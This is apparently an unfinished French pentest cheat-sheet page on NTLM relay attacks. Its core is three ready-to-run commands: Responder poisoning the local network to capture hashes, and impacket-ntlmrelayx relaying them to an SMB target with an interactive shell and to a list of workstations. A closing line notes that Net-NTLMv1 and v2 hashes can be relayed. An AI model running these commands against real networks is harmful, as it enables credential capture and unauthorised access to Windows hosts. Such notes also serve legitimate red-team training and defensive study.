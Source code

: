 ```yaml
---
description: A finir
---
```


# NTLM Relay

```
sudo responder -I eth0 -vrd
sudo impacket-ntlmrelayx -t smb://<IP> -i -debug
sudo impacket-ntlmrelayx -tf IP_postes_localadmin.txt -smb2support
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1 et Net-NTLMv2) peuvent être relayés.
